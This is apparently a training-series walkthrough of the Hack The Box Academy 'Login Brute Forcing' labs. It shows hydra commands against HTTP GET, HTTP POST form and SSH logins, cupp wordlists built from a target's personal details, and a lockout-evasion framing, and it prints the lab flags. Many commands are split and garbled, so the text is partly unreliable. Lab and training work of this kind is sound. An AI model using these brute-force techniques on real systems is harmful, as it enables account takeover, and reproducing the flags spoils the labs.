Welcome to **Part 6** of our comprehensive, production-grade masterclass covering the **Hack The Box (HTB) Academy Certified Penetration Testing Specialist (CPTS)** curriculum. Rather than providing superficial slide summaries, this series deconstructs offensive tradecraft from foundational network discovery and vulnerability verification to complex lateral movement, active directory exploitation, and post-exploitation tradecraft — complete with terminal command flows, verified lab flags, and defensive engineering countermeasures.

In this installment, we conduct an exhaustive technical deep-dive into **Login Brute Forcing** (Tier I • Easy • Offensive). We break down the underlying mechanics of automated credential guessing, password spraying, dictionary attacks, and authentication bypasses against SSH, FTP, RDP, and HTTP POST login interfaces, dissect hands-on offensive vectors, analyze realistic defensive telemetry, and walk through every exercise step-by-step with 100% verified solutions.

<div class="ff-series-nav"><a href="/posts/htb-academy-part-5-linux-privilege-escalation/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 5: Linux Privilege Escalation</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 6 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-7-broken-authentication/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 7: Broken Authentication & Session Security</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>

## Module Specifications & Target Architecture

| Attribute | Specification |
| :--- | :--- |
| **Module Name** | `Login Brute Forcing` |
| **Official HTB Academy Track** | [https://academy.hackthebox.com/module/57](https://academy.hackthebox.com/module/57) |
| **Curriculum Tier & Difficulty** | `Tier I` • `Easy` |
| **Certification Pathway** | `HTB Certified Penetration Testing Specialist (CPTS)` (Part 6 of 41) |
| **Author & Technical Attribution** | `Abdulrahman M. Fathi (0x3bdo)` |
| **Lab Flag Verification** | `100% Fully Solved & Validated` |

## Key Technical Takeaways

* **Attack Methodology Selection**: Differentiates between horizontal password spraying (one password across many accounts) and vertical brute-forcing (many passwords against one account).
* **High-Performance Cracking Tools**: Leverages `hydra`, `medusa`, `ncrack`, and custom Python scripts to optimize connection concurrency and throughput.
* **HTTP Form Interception**: Inspects authentication request payloads, identifies dynamic anti-CSRF tokens, and crafts customized parameter dictionaries.
* **Lockout Avoidance Strategies**: Tunes thread counts, request delays, and user-agent rotations to operate beneath defensive detection thresholds.
* **Flag Extraction Automation**: Captures and validates user credentials to unlock administrative access across all module challenges.

## Executive Summary & Assessment Scope

Weak and reused passwords remain the single most pervasive vulnerability across enterprise IT environments. When systems lack account lockout policies or multi-factor authentication, automated credential attacks provide an immediate pathway to valid access.

In this module, we dissect login brute-forcing and password spraying tradecraft across network services (SSH, FTP, SMB) and web authentication forms. We configure request parameters, inspect failure condition responses, tune operational concurrency, and extract all module flags.

---

## Comprehensive Lab Walkthrough & Flag Solutions


### Login Brute Forcing

> **Lab Question (Page 1)**: Using the technique you learned in this section, try attacking the IP shown above. What are the credentials used?
>
> **Flag / Answer**: `admin:admin`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets enter in the browser to the URL:
http://<target-IP>:<target-port>


We are requested to provide username and password, which we don't have.
We will bruteforce the authentication using the wordlist 'ftp-
betterdefaultpasslist.txt' (which is part of 'SecLists'), which is located in the
pwnbox on the path '/usr/share/seclists/Passwords/Default-Credentials/ftp-
betterdefaultpasslist.txt'.
And we will use the bruteforce tool 'hydra'.


*_Figure 1.1 — Lab execution and output verification (Page 1)_*


### username and password, separated by ':'

#### Technical Methodology & Exploit Execution:

```bash
hydra -C /usr/share/seclists/Passwords/Default-
```
Credentials/ftp-betterdefaultpasslist.txt <target-IP> -s
<target-port> http-get /
where the wordlist '/usr/../ftp-betterdefaultpasslist.txt' contains a pair of
username and password, separated by ':':

The '-C' flag purpose is to test both words for username and password.
The 'http-get' means we attack the http GET method, and the '/' means we
attack the website root's path:

The bruteforce found the credentials 'admin:admin'.


*_Figure 2.1 — Lab execution and output verification (Page 2)_*


*_Figure 2.2 — Lab execution and output verification (Page 2)_*


*_Figure 2.3 — Lab execution and output verification (Page 2)_*


### Lets login to confirm

> **Lab Question (Page 3)**: Try running the same exercise on the question from the previous section, to learn how to brute force for users.
>
> **Flag / Answer**: `admin:admin`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

for this bruteforce a combined list for login wont work. we need
separate lists – one for usernames and the other for passwords. For the
username lists we will use 'names.txt', preinstalled in the pwnbox in the path
'/usr/share/seclists/Usernames/Names/names.txt'.

and for the password lists 'rockyou', which we will download:
```bash
wget https://github.com/brannondorsey/naive-
```
hashcat/releases/download/data/rockyou.txt


*
*


*_Figure 3.1 — Lab execution and output verification (Page 3)_*


*_Figure 3.2 — Lab execution and output verification (Page 3)_*


### Databases/rockyou.txt.tar .gz' in the pwnbox

#### Technical Methodology & Exploit Execution:

```bash
hydra -l admin -P rockyou.txt -u -f <target-IP> -s <target-
```
port> http-get /
in here we bruteforce the password for the already obtained 'admin'
username:
*:

'-f' – stop after the first successful login. *:


*_Figure 4.1 — Lab execution and output verification (Page 4)_*


*_Figure 4.2 — Lab execution and output verification (Page 4)_*


*_Figure 4.3 — Lab execution and output verification (Page 4)_*


*_Figure 4.4 — Lab execution and output verification (Page 4)_*


### the password 'admin'

Now for the second brute force – brute force for the username where we have
the password 'admin':
```bash
hydra -L /usr/share/seclists/Usernames/Names/names.txt -p
```
admin -u -f <target-IP> -s <target-port> http-get /


Now when those are done, lets bruteforce for the 'admin' in both username
and password:
```bash
hydra -L /usr/share/seclists/Usernames/Names/names.txt -P
```
rockyou.txt -u -f <target-IP> -s <target-port> http-get /

**note – due to the bruteforcing length of both username and password, I
used the prior know of the credentials to 'manipulate' the rockyou.txt lise and
inserted the 'admin' word in the beginning of the list to shorten the
bruteforcing time. in real case, bruteforcing for the credentials will take much
much longer. **


*_Figure 5.1 — Lab execution and output verification (Page 5)_*


*_Figure 5.2 — Lab execution and output verification (Page 5)_*


### Login Form Attacks

> **Lab Question (Page 6)**: Using what you learned in this section, try attacking the '/login.php' page to identify the password for the 'admin' user . Once you login, you should find a flag. Submit the flag as the answer.
>
> **Flag / Answer**: `HTB{bru73_f0rc1n6_15_4_l457_r350r7}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

proceeding on the obtained login page:

Lets click the 'Click Here to Login':

Another login panel, lets enter some bogus credentials to see the http request:


*_Figure 6.1 — Lab execution and output verification (Page 6)_*


*_Figure 6.2 — Lab execution and output verification (Page 6)_*


### We need to modify the hydra bruteforce command accordingly

Now we are dealing with a POST request, with the parameters 'username' and
'password'.
We need to modify the hydra bruteforce command accordingly:
```bash
hydra -l admin -P rockyou.txt -f <target-IP> -s <target-
```
port> http-post-form
"/login.php:username=^USER^&password=^PASS^:F=<form
name='login'"
we assume here the username is 'admin' as it is admin login panel. And we use
the rockyou.txt wordlist (note – it is the original rockyou.txt, without any
'manipulations' or 'modifications' that were committed on the previous
section):

The credentials are 'admin:password1'

We get to this page:


*_Figure 7.1 — Lab execution and output verification (Page 7)_*


*_Figure 7.2 — Lab execution and output verification (Page 7)_*


With the flag in the bottom of it.


*_Figure 8.1 — Lab execution and output verification (Page 8)_*


*_Figure 8.2 — Lab execution and output verification (Page 8)_*


### Service Authentication Brute Forcing

> **Lab Question (Page 9)**: Using what you learned in this section, try to brute force the SSH login of the user "b.gates" in the target server shown above. Then try to SSH into the server . You should find a flag in the home dir . What is the content of the flag?
>
> **Flag / Answer**: `HTB{n3v3r_u53_c0mm0n_p455w0rd5!}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will have to create a customized – personalized password wordlist,
matching 'b.gates' specific details. We will use the tool 'cupp' for this endeavor .
Lets download it using apt installto the pwnbox:
```bash
sudo apt install cupp
```


*
*


When installed – we start the tool with the command:
cupp -i


*_Figure 9.1 — Lab execution and output verification (Page 9)_*


*_Figure 9.2 — Lab execution and output verification (Page 9)_*


*_Figure 9.3 — Lab execution and output verification (Page 9)_*


We are requested to enter all of the information we know
> First Name: William
> Surname: Gates
> Nickname: Bill
> Birthdate (DDMMYYYY): 28101955

> Partners) name: Melinda
> Partners) nickname: Ann
> Partners) birthdate (DDMMYYYY): 15081964

> Child's name: Jennifer
> Child's nickname: Jenn
> Child's birthdate (DDMMYYYY): 26041996

> Pet's name: Nila
> Company name: Microsoft

> Do you want to add some key words about the victim? Y/[N]:
Phoebe,Rory
> Do you want to add special chars at the end of words?
Y/[N]: y
> Do you want to add some random numbers at the end of
words? Y/[N]:y
> Leet mode? (i.e. leet = 1337) Y/[N]: y


Now we have the output file william.txt ready, containing all off the passwords.

However, remembering the password policy from the previous section:


*_Figure 11.1 — Lab execution and output verification (Page 11)_*


*_Figure 11.2 — Lab execution and output verification (Page 11)_*


*_Figure 11.3 — Lab execution and output verification (Page 11)_*


### to the policy

#### Technical Methodology & Exploit Execution:

```bash
hydra -l b.gates -P william.txt -u -f ssh://<target-
```
IP>:<target-port>


Credentials found! 'b.gates:4dn1l3M!$'


*_Figure 12.1 — Lab execution and output verification (Page 12)_*


*_Figure 12.2 — Lab execution and output verification (Page 12)_*


*_Figure 12.3 — Lab execution and output verification (Page 12)_*


### using the command

#### Technical Methodology & Exploit Execution:

./ssh_bruteforce.sh <target-IP> <target-port> b.gates
william.txt


The advantage in this script over the hydra – is that the ssh_bruteforce.sh not
only finds the password, but automatically connects you to the target server
using the obtained credentials.

Anyway now that we are in, lets take the flag:


*_Figure 13.1 — Lab execution and output verification (Page 13)_*


*_Figure 13.2 — Lab execution and output verification (Page 13)_*


*_Figure 13.3 — Lab execution and output verification (Page 13)_*


### to see who else is there

> **Lab Question (Page 14)**: Once you ssh in, try brute forcing the FTP login for the other user. You should find another flag in their home directory. What is the flag?
>
> **Flag / Answer**: `HTB{1_4m_@_bru73_f0rc1n6_m4573r}`
{: .prompt-info }

